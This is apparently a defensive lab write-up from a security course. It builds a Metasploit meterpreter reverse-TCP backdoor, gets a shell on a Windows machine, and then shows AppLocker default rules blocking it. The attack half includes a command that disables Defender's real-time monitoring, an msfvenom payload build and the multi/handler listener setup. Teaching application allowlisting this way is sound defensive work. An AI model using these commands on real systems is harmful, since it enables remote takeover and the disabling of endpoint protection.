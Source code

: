 <h3>AppLocker</h3>

---

_NOTE: All the procedures in this lab were created and learned from: [Getting Started in Security with BHIS and MITRE ATT&CK](https://www.antisyphontraining.com/event/getting-started-in-security-with-bhis-and-mitre-attck/2023-09-18/) taught by [John Strand](https://www.sans.org/profiles/john-strand/)_

---

**Tools/Technologies used:** Windows, Linux, Powershell, cmd, Applocker, Backdoor & Backdoor listener, and Metasploit

---

_[Windows AppLocker](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/windows-defender-application-control/applocker/what-is-applocker) is a security feature in Windows that lets administrators control which applications and scripts can run on a computer or network by creating policies based on file attributes. It enhances security by allowing only authorized and trusted software to execute, reducing the risk of malware and unauthorized applications.<br>_


Let's examine the scenario when AppLocker isn't active. Our objective is to establish a basic backdoor that connects to the Ubuntu system. It's important to note that our goal is not to demonstrate evasion of EDR or Endpoint products but rather to create a straightforward backdoor connection.

First, let's disable Defender for this session. Execute the following command from an Administrator PowerShell prompt:

```Set-MpPreference -DisableRealtimeMonitoring $true```

If you encounter any red error messages, don't worry; this indicates that Defender is not currently running.

To simplify this process, we have a couple of scripts available. Ensure that both your Windows and Linux systems are running, and let's begin by opening a Terminal as an Administrator.

![1](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/5c41c2da-866f-4ee4-9620-2b84a8acca23)
![1 5](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/bf18a584-6def-4450-ad8e-4ea2fd9e92ac)

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

![2](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/ef060e3f-f787-40dc-bcaa-608dabdb3894)

On your Linux system, please run the following command:

$`ifconfig`

![3](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/730a3081-5acd-4a55-94f1-3adf4aaa7975)

Please note the IP address of your Ethernet adapter.

Please note that my adaptor is called eth0 and my IP address is 172.17.32.119. Your IP Address and adapter name may be different.

Please note your IP address for the ADHD Linux system on a piece of paper:

Now, run the following commands to start a simple backdoor and backdoor listener:

$ `sudo su -` Please note, the adhd password is adhd.

`msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<YOUR LINUX IP> lport=4444  -f exe -o /tmp/TrustMe.exe`

`cd /tmp`

`ls -l TrustMe.exe`

`cp ./TrustMe.exe /mnt/c/tools`

![3 1](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/a26a1b6d-945d-414e-9647-095a22f62080)

Now, let's start the Metasploit Handler. First, open a new Ubuntu Terminal by clicking the down carrot then selecting Ubuntu-18.04.

Let's become root.

`sudo su -`

root@DESKTOP-I1T2G01:/tmp# `msfconsole -q`

![3 2](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/27d921a5-657f-4946-b602-7ee897783d06)

msf5 > `use exploit/multi/handler`

msf5 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`

PAYLOAD => windows/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > `set LHOST 172.26.19.133`

Remember, your IP will be different!

msf5 exploit(multi/handler) > `exploit`

It should look like this:

![4](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/c25b312a-6d42-4bf3-9094-e5d10d661944)

Now, let’s download the malware and run it!

First, let's open a Windows command prompt. Simply select the down carrot from the Windows Terminal and select Command Prompt.

Once the prompt is open, let's run the following commands to run the TrustMe.exe file.

`cd \tools`

Then, run it.

`.\TrustMe.exe`

Back at your Ubuntu prompt, you should have a metasploit session!

![5](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/8a6d314b-9e7e-4ed1-91e1-42f899b551a8)

Now, let’s stop this from happening!

First, let’s configure AppLocker. To do this we will need to access the Local Security Policy on your Windows System.

Simply press the Windows key (lower left hand of your keyboard, looks like a Windows Logo) then type Local Security. It should bring up a menu like the one below, please select Local Security Policy.

![6](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/a6918cd3-d8f7-4dde-9372-7f1b9190597e)

Next, we will need to configure AppLocker. To do this, please go to Security Settings > Application Control Policies and then AppLocker.

![7](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/2db93d97-4465-4eea-aacd-065ce487a71f)

In the right hand pane, you will see there are 0 Rules enforced for all policies. We will add in the default rules. We will choose the defaults because we are far less likely to brick a system.

![8](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/3ca06428-fd48-40d8-ab73-cc3807c26f3c)

Please select each of the above Rule groups (Executable, Windows Installer, Script and Packaged) and for each one, right click in the area that says “There are no items to show in this view.” and then select “Create Default Rules”

![9](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/ee9627c6-62ff-4db1-b9fe-9f595446c39d)

This should generate a subset of rules for each group. It should look similar to how it does below:

![10](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/4ed4648b-0533-4561-a69b-8ee050252334)

Next, we need to enforce the rules:

To do this you will need to select AppLocker on the far left pane. Then, you will need to select Configure rule enforcement. This will open a pop-up, you will need to check Configured for each set of rules

![11](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/009ace81-c4a7-4099-9d81-77ee996ed916)

Now, we will need to start the Application Identity service. This is done through pressing the Windows key and typing Services. This will bring up the Services App. Please select that and then double-click “Application Identity.”

![11 1](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/e6c7102a-2c60-409b-84fb-2cdc09cf5aa3)
![12](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/8005f161-ff7e-47b4-82c0-b1c23b8d4e22)

Once the Application Identity Properties dialog is open, please press the Start button. This will start the service.

![13](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/96cf5159-aa2f-467e-9137-42f8558afd63)

Next, open a command prompt and run gpupdate to force the policy change

C:\ `gpupdate /force`

![13 1](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/3e5f5109-0f64-4af6-8bfb-4db5215a01c9)

Next, log out as ADHD and log back in as allowlist.

You can do this easily by selecting the Windows icon and then the little white user icon:

![14](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/1a2599a6-b079-4226-87ea-7d322241d038)

The password is ADHD.

Now, navigate to the C:>\Tools directory with Windows Explorer and try to run some of the .exe files.

![15](https://github.com/ButchBytes-sec/ButchBytes-sec/assets/78964580/fb6bdd70-08f6-4729-96a6-e5a5fb2e21dc)
You will see that most of the .exe files will generate an error.

You should get an error.







